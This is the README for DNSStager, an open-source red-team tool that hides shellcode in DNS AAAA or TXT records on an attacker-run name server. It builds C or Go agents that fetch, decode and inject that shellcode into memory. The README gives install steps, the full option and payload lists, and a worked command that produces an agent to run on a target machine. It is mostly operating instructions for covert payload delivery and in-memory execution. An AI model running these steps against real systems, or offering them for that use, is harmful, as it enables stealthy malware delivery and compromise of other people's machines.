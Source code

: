 # What is DNSStager? ![](https://img.shields.io/badge/python-3-blue)

DNSStager is an open-source project based on Python used to hide and transfer your payload using DNS.

DNSStager will create a malicious DNS server that handles DNS requests to your domain and return your payload as a response to specific record requests such as `AAAA` or `TXT` records after splitting it into chunks and encoding the payload using different algorithms.

DNSStager can generate a custom agent written in `C` or `GoLang` that will resolve a sequence of domains, retrieve the payload, decode it and finally inject it into the memory based on any technique you want.

You can edit the code of DNSStager agent as you wish, and build it using your own custom execution techniques.

The main goal of using DNSStager is to help red teamers/pentesters to deliver their payloads in stealthy channel using DNS.


# How does it work?

Based on your DNS resolution option, DNSStager will split your payload into chunks and save each chunk of the payload as a response for a subdomain.

For example, if you choose `IPV6` as your option to retrieve the payload, the DNS response will be something like:

`cloud-srv-1.test.mydnsserver.live. 300 IN AAAA	5648:31d2:6548:8b52:6048:8b52:1848:8b52`

Where `5648:31d2:6548:8b52:6048:8b52:1848:8b52` is a part of your payload.

So, the agent will resolve some domains to retrieve the payload and then decode it and finally inject it into memory.

Currently, DNSStager only supports two records, `AAAA` and `TXT`. You can encode your payload using XOR for the `AAAA` record and by default it will be encoded as base64 if you choose `TXT` record.

# DNSStager key features:

DNSStager has some key features such as:

* Hide and Resolve your payload in `IPV6` records.
* Hide and Resolve your payload in `TXT` records.
* XOR encoder to encode your payload.
* Base64 encoder to encode your payload (only for TXT records).
* Pure agent written in `C` with the ability to customise it.
* Pure agent written in `GoLang` with the ability to customise it.
* The ability to use sleep between each DNS request.
* AND MUCH MORE TO COME!

# Requirements

You can install DNSStager python requirements via:

`pip3 install -r requirements.txt`

You need to install `GoLang` version `1.16.3` and to make sure to install the following `GoLang` packages:

* golang.org/x/sys
* github.com/miekg/dns

Also, make sure to install `ming-w64` via:

`apt install mingw-w64`

The script `setup.sh` should do that for you, but double check the requirements before you use it!

# Installation

To get the latest version of DNSStager, make sure to clone it from this repo using the following command:

`git clone https://github.com/mhaskar/DNSStager`

Then you need to install the requirements using the following command:

`pip3 install -r requirements.txt`

And make sure to install all the previously mentioned requirements too.

After doing all that, you are ready to execute DNSStager **as root** to get the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py



██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝    

    Beta Version                           Hide your payload in DNS

[-] Please specify a domain name using --domain
```
# Usage

To start using DNSStager, make sure to setup your DNS settings first, you need to make your domain points to the DNSStager instance as `NS record` in order to handle all the DNS requests to your domain.

You can read this full article about how to setup and use DNSStager.

And you can check the options using `-h` switch like the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py -h
usage: dnsstager.py [-h] [--domain DOMAIN] [--payloads] [--prefix PREFIX]
                    [--payload PAYLOAD] [--output OUTPUT]
                    [--shellcode_path SHELLCODE_PATH] [--xorkey XORKEY]
                    [--sleep SLEEP]

DNSStager main parser

optional arguments:
  -h, --help            show this help message and exit
  --domain DOMAIN       The domain you want to use as staging host
  --payloads            show all payloads
  --prefix PREFIX       Prefix to use as part of your subdomain schema
  --payload PAYLOAD     Payload to use, see --payloads for more details
  --output OUTPUT       Agent output path
  --shellcode_path SHELLCODE_PATH
                        Shellcode file path
  --xorkey XORKEY       XOR key to encode your payload with
  --sleep SLEEP         sleep for N seconds between each DNS request

```

* --domain: you can use this option to select the main domain you will use to handle the DNS requests for.

* -- prefix: The prefix you want to use for the subdomain schema
For example, if your main domain is `fakedns.live` you can specify the prefix as "cdn" for example, So the generate domains will be a a pattern as the following:

  * `cdn0.fakedns.live`
  * `cdn1.fakedns.live`
  * `cdnN.fakedns.live`

Where `N` is auto generated number represent the number of chunks of your payload.

* --payload: the DNSStager payload "agent" you want to generate based on the technique, programming language and architecture.

* --output: Output path to save DNSStager executable payload "agent".

* --shellcode_path: Your `raw`/`bin` shellcode path.

* --xorkey: XOR key to encode the payload with.

* --sleep: Used to sleep for N seconds between each DNS request.

## DNSStager Payloads

To check the available DNSStager payloads, you can use `./dnsstager.py --payloads` to get the following results:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py --payloads

[+] 6 DNSStager payloads Available

x64/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```
## Example of using DNSStager with IPV6

This example will start DNSStager to resolve your payload as `IPV6` using the domain `test.mydnsserver.live` with prefix `cloud-srv-` to generate compiled `x64 C` agent encoded with 0x10 as key:

`sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10
`  

And the output will be:

![Alt text](screenshots/Starting-DNSStager-x64-ipv6.png)

And to check if everything is working well, lets send DNS query to `cloud-srv-0.test.mydnsserver.live` to get the following:

![Alt text](screenshots/DNSStager-dig-test.png)

We can see that we received `f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b` as response which is the first 16 bytes of our encoded payload.

Then you can execute the agent `/tmp/a2.exe` (as set in using --output in the comand line) on the target machine and that will download all of the chunks required, decode them and inject them into memory for you.

# License

This project is licensed under the GPL-3.0 License - see the LICENSE file for details
